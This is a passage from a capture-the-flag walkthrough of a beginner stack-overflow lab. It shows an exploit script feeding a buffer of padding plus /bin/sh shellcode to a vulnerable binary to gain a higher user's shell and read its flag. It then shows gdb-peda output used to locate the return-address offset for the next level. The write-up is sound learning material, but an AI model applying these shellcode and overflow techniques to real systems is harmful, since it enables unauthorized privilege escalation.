 Provide the final exploit as the user input data to the `levelThree` binary and get access as `level3` user.

```bash
level2@kali:~$ ./levelThree $(./exploit.py)
Buf: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAC�UV����������1�Ph//shh/bin��PS��
                                                       
$ id; cat /home/level3/level3.txt
uid=1003(level3) gid=1002(level2) groups=1002(level2)
2c41d9ef668[REDACTED]
```

# Level 3 -> Level 4:

Obtaining access as `level4 ` user is almost the same as getting access to `level3`, where the only difference here would the offset. 

Therefore, I will not be provided much details regarding the steps of identifing offset and related. 

It is good practice to attempt and replicate the steps using the information from the previous challenges.



Idenfing the offset at `level4`.

```bash
gdb-peda$ pattern_create 300
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAa---SNIP---'
gdb-peda$ r 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA---SNIP---'

[----------------------------------registers-----------------------------------]
EAX: 0x6a ('j')
EBX: 0x41412d41 ('A-AA')
ECX: 0x1
EDX: 0xf7fa9890 --> 0x0
ESI: 0xffffd6d0 --> 0x2
EDI: 0xf7fa8000 --> 0x1d9d6c
EBP: 0x44414128 ('(AAD')
ESP: 0xffffd680 ("A)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
EIP: 0x413b4141 ('AA;A')
EFLAGS: 0x10286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x413b4141
[------------------------------------stack-------------------------------------]
0000| 0xffffd680 ("A)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0004| 0xffffd684 ("EAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0008| 0xffffd688 ("AA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0012| 0xffffd68c ("AFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0016| 0xffffd690 ("bAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0020| 0xffffd694 ("AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0024| 0xffffd698 ("AcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0028| 0xffffd69c ("2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x413b4141 in ?? ()
```


[1]: https://www.vulnhub.com/entry/stack-overflows-for-beginners-101,290/	"IntroToStackOverflow"
[2]: https://github.com/longld/peda
[3]: <http://shell-storm.org/shellcode/files/shellcode-399.php>
[4]: <https://www.exploit-db.com/shellcodes/46809>